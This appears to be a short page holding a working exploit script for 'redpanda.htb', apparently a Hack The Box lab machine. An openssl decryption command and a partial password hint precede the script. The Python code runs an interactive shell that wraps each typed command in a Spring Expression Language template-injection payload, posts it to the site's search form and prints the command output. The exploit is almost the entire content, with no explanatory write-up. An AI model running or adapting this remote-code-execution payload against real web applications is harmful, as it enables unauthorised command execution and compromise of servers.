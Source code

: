```openssl enc -d -aes-256-cbc -salt -pbkdf2 -in rce.py.enc -out rce.py```

Pass: RedP...

```python
import requests
from cmd import Cmd
import urllib.parse, argparse
import re
import threading
import netifaces as ni
from http.server import HTTPServer, SimpleHTTPRequestHandler

url = "http://redpanda.htb:8080/search"

parser = argparse.ArgumentParser()
parser.add_argument("-u","--url-encode", action="store_true", help="URL Encode")
args = parser.parse_args()
url_encode=args.url_encode

class Terminal(Cmd):
    prompt='\033[1;33mwoodenk@redpanda:/tmp/hsperfdata_woodenk$ \033[0m'
    def decimal_encode(self,args):
        command=args
        decimals=[]
        for i in command:
            decimals.append(str(ord(i)))
        payload='''*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]
        for i in decimals[1:]:
            line='.concat(T(java.lang.Character).toString({}))'.format(i)
            payload+=line
        payload+=').getInputStream())}'
        data = {'name': payload}
        #print(payload)
        r = requests.post(url, data=data)
        r = r.text
        r = r.split("</h2>")[0][612:]
        print(r)
    def default(self,args):
        e = self.decimal_encode(args)
        e = str(e).replace("None","")
        print(e)
try:
    term=Terminal()
    term.cmdloop()
except KeyboardInterrupt:
    quit
```
